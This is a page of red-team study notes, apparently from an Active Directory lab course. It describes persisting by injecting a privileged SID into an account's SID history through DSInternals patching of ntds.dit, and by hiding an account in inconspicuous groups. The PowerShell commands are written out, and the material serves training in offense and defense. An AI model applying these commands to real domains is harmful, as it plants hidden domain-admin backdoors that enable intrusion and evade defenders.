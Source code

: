 ##### History Can Be Whatever We Want It To Be

We can add a SID of our current domain to the SID history of an account we control.

Some interesting notes about this persistence techniques:

- We normally need Domain Admin privileges or the equivalent to perform this attack.
- In a logon event the account's SID is added to the user token, which determines the privileges, it includes group SIDs
- We can inject the enterprise admin SID which will give the user domain admin privileges in all domains in the forest.
- Since the SIDs are added to the user token he doesn't even have to be a part of the group, making him appear like a normal user.

##### Forging History

`Get-ADUser <your ad user> -properties sidhistory,memberof` - Confirm the user doesn't have SID history set.
`Get-ADGroup "Domain Admins"` - Get the SID of the Domain Admins group.

The latest version of Mimikatz doesn't work for that attack (it has a flaw that doesn't allow it to patch LSASS to update SID history) so we will use [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the ntds.dit file, the AD database where all information is stored:

```markup
PS C:\Users\Administrator.ZA>Stop-Service -Name ntds -force 
PS C:\Users\Administrator.ZA> Add-ADDBSidHistory -SamAccountName <username of our low-priveleged AD account> -SidHistory <SID to add to SID History> -DatabasePath C:\Windows\NTDS\ntds.dit 
PS C:\Users\Administrator.ZA>Start-Service -Name ntds
```

The NTDS database is locked when the NTDS service is running, to patch our SID history we first need to stop it, after that we have to restart it or authentication for the entire network will not work anymore.

`Get-ADUser aaron.jones -Properties sidhistory` - From the low privileged account verify the SID history is added.
`dir \\domain\c$\` - Verify you have domain admin privileges.

##### Pitchforks and Torches from the Blue Team

SID history is a protected attribute and only removable by tools like AD-RAST Powershell cmdlets.

This technique is also very hard to find since the user appears normal.

## Persistence through Group Membership

##### Persistence through Group Membership

Groups to add our account to to not raise much suspicion:

- The IT group, which can force reset passwords off low privileged user.
- Groups that provide local administrator rights
- It's not always about direct privileges, sometimes indirect ones like ownership over GPOs can be just as good.
